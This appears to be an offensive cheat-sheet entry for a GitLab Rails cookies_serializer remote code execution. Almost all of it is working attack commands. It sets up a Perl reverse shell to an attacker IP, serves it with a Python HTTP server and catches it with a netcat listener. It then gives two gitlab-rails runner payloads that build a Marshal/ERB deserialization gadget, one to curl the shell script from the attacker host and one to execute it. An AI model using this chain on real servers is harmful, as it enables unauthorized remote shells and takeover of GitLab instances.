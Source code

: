 # gitlab

## gitlab-rails

### :hybrid cookies_serializer rce

    # on attacker:
    # create a reverse shell
    $ cat run.sh
    perl -e 'use Socket;$i="<ATTACKER_IP>";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    # deliver reverse shell
    $ python3 -m http.server 8000
    # listen for a reverse shell
    $ nc -v -l -p 6666

    # on victim's gitlab server:
    # pull the perl reverse shell
    $ gitlab-rails runner 'request = ActionDispatch::Request.new(Rails.application.env_config);request.env["action_dispatch.cookies_serializer"] = :marshal;cookies = request.cookie_jar; erb = ERB.new("<%= `curl http://<ATTACKER_IP>:8000/run.sh -o /tmp/run.sh` %>"); depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new); cookies.signed[:cookie] = depr; puts cookies[:cookie]'
    # trigger the reverse shell
    $ gitlab-rails runner 'request = ActionDispatch::Request.new(Rails.application.env_config);request.env["action_dispatch.cookies_serializer"] = :marshal;cookies = request.cookie_jar;erb = ERB.new("<%= `bash /tmp/run.sh` %>");depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new);cookies.signed[:cookie] = depr;puts cookies[:cookie]'

